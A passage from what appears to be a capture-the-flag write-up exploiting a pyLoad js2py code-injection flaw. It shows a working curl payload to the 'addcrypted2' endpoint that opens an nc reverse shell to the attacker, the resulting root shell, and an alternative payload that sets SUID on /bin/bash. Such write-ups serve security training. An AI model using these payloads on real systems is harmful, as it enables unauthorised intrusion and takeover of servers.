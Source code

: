 The payload allows an unauthenticated attacker to execute arbitrary Python code by abusing the functionality of the `js2py` library used by `pyLoad`. By sending a specially crafted request to the targeted endpoint (`addcrypted2`), the attacker can inject Python code via the `jk` parameter by using `pyimport` as `js2py` also supports importing any Python code from JavaScript using `pyimport` statement, which is enabled by default. This all leads to remote code execution.

```bash
#rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.64 1234 >/tmp/f
$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.64%201234%20%3E%2Ftmp%2Ff\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \                            
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

```bash
$ nc -lvnp 1234                                 
listening on [any] 1234 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.11.214] 41228
# whoami
root
# cat /root/root.txt
e0a**REDACTED**24a
```

Another path one could take is to add a SUID to `/bin/bash`.

```bash
# chmod u+s /bin/bash
$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Wed, 24 May 2023 11:40:09 GMT
Server: Cheroot/8.6.0

Could not decrypt key  
```
On the server, `/bin/bash` now has the SUID set.

```bash
sau@pc:~$ ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.2M Apr 18  2022 /bin/bash
sau@pc:~$ /bin/bash -p
bash-5.0# whoami
root
```